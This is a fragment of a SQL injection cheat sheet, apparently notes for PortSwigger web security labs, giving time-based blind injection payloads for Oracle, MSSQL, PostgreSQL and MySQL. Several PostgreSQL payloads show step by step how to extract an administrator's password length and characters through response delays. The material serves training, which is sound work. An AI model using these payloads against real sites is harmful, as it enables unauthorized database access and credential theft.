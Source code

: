 | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | Test if the app is vulnerable :<br>`';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`<br>=> 10 seconds of delay for response<br><br>`';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--`<br>=> No delay for response<br><br>`';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`<br>=> 10 seconds of delay for response<br><br>`';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`<br>=> No delay. Password's length is lesser than 21.<br><br>Test if the letter a is presents at offset x :<br>`';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,x,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`<br><br>*Note : of course you can use burp intruder to do this instead to do it manually. **But** you need to set the Maximum concurrent Request to **1** to avoid false positives.* | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`                                                                                                                                                                                                                                                                                                                                                                          | Conditional time delays. You can adapt the payload from the conditionnal errors part.<br><br>[See this lab to train](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval).                                                                                                              |